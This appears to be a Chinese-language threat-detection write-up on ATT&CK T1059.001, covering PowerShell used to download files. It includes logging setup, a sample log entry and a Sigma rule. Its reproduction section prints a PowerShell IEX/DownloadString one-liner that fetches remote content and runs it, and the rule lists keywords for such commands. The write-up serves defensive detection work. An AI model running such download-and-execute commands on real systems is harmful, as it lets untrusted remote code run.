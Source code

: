 # T1059-001-win-检测Powershell下载文件

## 来自ATT&CK的描述

攻击者可能滥用PowerShell来执行命令和脚本。PowerShell是Windows操作系统中包含的功能强大的交互式命令行界面和脚本环境。攻击者可以使用PowerShell执行许多操作，包括发现信息和执行恶意代码。示例包括Start-Process可用于运行可执行文件的Invoke-Commandcmdlet和可在本地或在远程计算机上运行命令的cmdlet（尽管使用PowerShell连接到远程系统需要管理员权限）。

PowerShell也可以用于从Internet下载并运行可执行文件，这些可执行文件可以从磁盘或内存中执行而无需接触磁盘。

提供了许多基于PowerShell的攻击性测试工具，包括Empire，PowerSploit，PoshC2和PSAttack。

还可以执行PowerShell命令活脚本，而无需通过.NET框架和Windows公共语言接口（CLI）公开的powershell.exePowerShell底层System.Management.Automation程序集DLL的接口直接调用二进制文件。

## 检测日志

Windows powershell日志审核策略

- 按Win+R打开Windows运行窗口,在输入框里输入gepdit.msc,打开Windows本地组策略编辑器;
- 找到计算机配置/管理模板/Windows组件/Windows Powershell，根据需求打开右侧所需要的日志功能；

## 测试复现

```yml
PS C:\Users\12306br0> IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/de
tails/89361287')
```

## 测试留痕

```yml
Powershell事件ID：4104
正在创建 Scriptblock 文本(已完成 1，共 1):
IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/details/89361287')

ScriptBlock ID: e9f29288-34e7-497f-8fff-9a6cf6c355da
```

## 检测规则/思路

### sigma规则

```yml
title: 检测PowerShell下载文件行为
status: experimental
description: 检测在powershell下载文件行为，windows server 2016测试
tags:
    - attack.t1059-001
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: 
            - '*\powershell.exe'
            - '*\powershell_ise.exe'
        CommandLine:
            - '*Net.WebClient*'
            - '*DownloadFile*'
            - '*Invoke-WebRequest*'
            - '*Invoke-Shellcode*'
            - '*http*'
            - '*Start-BitsTransfer*'
            - '*IEX*'
            - '*mpcmdrun.exe*'
    condition: selection
level: medium
```

### 建议

在使用Powershell日志进行检测时，我们不建议使用进程名称加命令行关键词匹配的方式进行检测。因为Powershell事件ID：4104中并不包含进程信息。

## 参考推荐

MITRE-ATT&CK-T1059-001

<https://attack.mitre.org/techniques/T1059/001/>

PowerShell 下载文件

<https://www.pstips.net/powershell-download-files.html>

检测Powershell下载文件行为

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/PowerShell%20downloads.txt>

Powershell与威胁狩猎

<https://www.freebuf.com/articles/terminal/267080.html>
